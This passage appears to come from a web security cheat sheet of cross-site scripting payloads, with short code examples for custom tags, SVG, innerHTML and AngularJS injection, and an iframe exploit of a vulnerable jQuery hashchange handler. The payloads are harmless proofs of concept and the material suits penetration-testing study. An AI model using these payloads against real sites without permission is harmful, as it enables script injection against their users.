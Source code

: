 * If the application is blocking some common tags, we can inject custom ones.

```html
<input2 onmouseover=alert(1)>Test</input2>
```


### SVG markup payload

* Payload to try if the application is allowing to render \<svg\> tags, can be found on Portswigger XSS Cheat Sheet.

```html
<svg><animatetransform onbegin=alert(document.domain) attributeName=transform>
```


### DOM XSS – Input is within the .innerHTML() Sink

* If user-controllable source is passed to the .innerHTML() sink, then we can use an \<img\> tag, for example, to execute JavaScript.  The .innerHTML() property will not execute \<script\> tags.

```html
<img src=x onerror=alert(1)>
```


### DOM XSS - AngularJS Expression

* If the application is using Angular JS, try injecting the following payload to the input fields and see if the expression is getting processed –> {{2+2}} = 4

   * Example:

```html
{{ this.constructor.constructor('alert("foo")')() }}
```


### DOM XSS jQuery selector sink - hashchange event

   * Vulnerable code:

```javascript
<script>
   $(window).on('hashchange', function(){
      var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
         if (post) post.get(0).scrollIntoView();
   });
</script>
```

   * Exploit:  In this example, the src attribute points to the vulnerable page with an empty hash value. When the iframe is loaded, an XSS vector is appended to the hash, causing the hashchange event to fire. 

```html
<iframe src="https://VULNERABLE-APPLICATION/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
